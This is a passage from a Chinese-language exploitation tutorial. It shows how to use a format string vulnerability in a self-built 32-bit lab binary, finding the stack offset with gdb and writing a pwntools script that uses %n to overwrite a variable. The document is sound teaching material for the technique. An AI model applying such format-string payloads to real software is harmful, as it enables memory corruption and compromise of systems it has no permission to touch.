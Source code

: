编译一下  
```
gcc -m32 -fno-stack-protector -no-pie -o format2 format2.c

```  
### 覆盖栈内存  
  
覆盖内存我们是有三个步骤，分别是  
1. 确定覆盖地址  
  
1. 确定相对偏移  
  
1. 进行覆盖  
  
#### 确定覆盖地址  
  
由于目前几乎所有的程序都开启了aslr保护，栈的地址一直在变，所以获取覆盖地址的方法千奇百怪，而且在前面几篇文章中也提到过几种，而且本篇文章的重点是格式化字符串漏洞，为了突出重点，这里我们就偷个懒直接将相应的地址输出了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72h48jy01SpUCNmxI9Nh3CTTKE78DCqWhelpsF6H84Db9DVcf5WGRBwg/640?wx_fmt=png&from=appmsg "")  
#### 确定相对偏移  
  
到这一步，我们需要确定一下存储格式化字符串的地址是printf将要输出的第几个参数，这里用前面我们提到的泄露栈变量数值的方法，来操作，也顺便复习一下前面的知识。  
```
gdb ./format2
b printf
r
c
Tide
stack

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72okgwAaibeiaEj5FkP75GoQXWsbKo0n0nicubdlQl1RO8dyc3EG8Uiace1w/640?wx_fmt=png&from=appmsg "")  
  
我们来分析一下栈上的数据，Tide是输入字符串的位置，Printf的所有参数入栈后，从栈顶依次向下排序发现其相对偏移是6，也就意味着通过%6$x即可实现覆盖，这样我们就确定了相对偏移，接下来我们就该来进行覆盖了。  
#### 进行覆盖  
  
前面提到相对偏移是6，也就是第6个参数处的值就是存储变量c的地址，我们可以利用%n的特征来修改c的值即  
```
c的地址+%012d%6$n

```  
  
由于c的地址长度为4，我们需要再输入12个字符才能达到16个字符，来达到我们修改c的值为16的目的  
  
将上述操作写成exp  
```
from pwn import *
sh = process('./format2')
c_addr = int(sh.recvuntil('\n', drop=True), 16)
print(hex(c_addr))
payload = p32(c_addr) + b'%012d' + b'%6$n'
print(payload)
sh.sendline(payload)
print(sh.recv())
sh.interactive()

```  
  